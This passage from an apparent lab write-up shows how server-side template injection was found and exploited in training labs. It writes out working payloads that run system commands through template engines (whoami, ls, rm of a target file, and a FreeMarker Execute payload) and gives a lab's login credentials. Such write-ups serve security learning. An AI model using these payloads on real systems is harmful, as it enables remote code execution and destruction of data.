 This means that I found a vulnerability here.

I modify the syntax to put the system command `whoami`:

`blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('whoami')}}`

And the result is:

![Pasted_image_20250126165426](https://github.com/user-attachments/assets/b9858573-7bc9-4322-8801-840eda61bc4e)

So I see the name of `carlos` there, let's see the files in the current directory.

`blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('ls')}}`

![Pasted_image_20250126165518](https://github.com/user-attachments/assets/e3af7f53-551c-4cd6-a7b1-0a1b2f621d4c)

So, now let's just delete the file: `blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('rm%20+morale.txt')}}`

The file is deleted and the lab is solved.

------------

### Lab.3 Server-Side Template Injection using Documentations

**Description**

The goal of the lab is to identify the template engine and then use the documentation to work out how to execute arbitrary code. Afterwards the main goal is to delete `morale.txt` from the Carlos's home directory

`content-manager:C0nt3ntM4n4g3r` are credentials that can be used to login.

**Solution**

I login with the given credentials, then I go to Home. After I select an article, I see the option to `Edit Template`.

![Pasted_image_20250126170634](https://github.com/user-attachments/assets/b1ff6425-523d-4edb-b9f7-3b8ca0583f7c)

After clicking there I see the syntax of the template engine:

![Pasted_image_20250126170856](https://github.com/user-attachments/assets/7b7e2a42-a2cb-4b16-8435-301e64a324ea)

I just changed one value to something that don't exist there, such as `${halil}` and I got a list of errors.

But the error is telling me the template:

![Pasted_image_20250126171042](https://github.com/user-attachments/assets/86433fcd-d1d0-4ce4-80bc-0ffefa20cc37)

Now, I know that the template engine is `freemaker` so now it will be much easier to find the correct syntax and do the system commands.

By adding this payload `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}` I was able to read the current user that I am executing commands from, which is `carlos`.
